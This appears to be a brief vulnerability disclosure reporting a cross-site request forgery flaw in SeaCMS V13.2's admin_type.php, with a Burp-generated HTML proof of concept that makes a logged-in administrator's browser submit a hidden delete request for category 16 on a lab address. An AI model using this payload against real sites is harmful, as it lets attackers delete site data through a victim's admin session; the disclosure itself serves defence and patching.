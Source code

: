 
target:https://github.com/seacms-net/CMS/blob/master/SeaCMS_V13.2_install.zip
version: V13.2

SeaCMS V13.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /qzm01p/admin_type.php

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.31.101/qzm01p/admin_type.php">
      <input type="hidden" name="action" value="del" />
      <input type="hidden" name="id" value="16" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

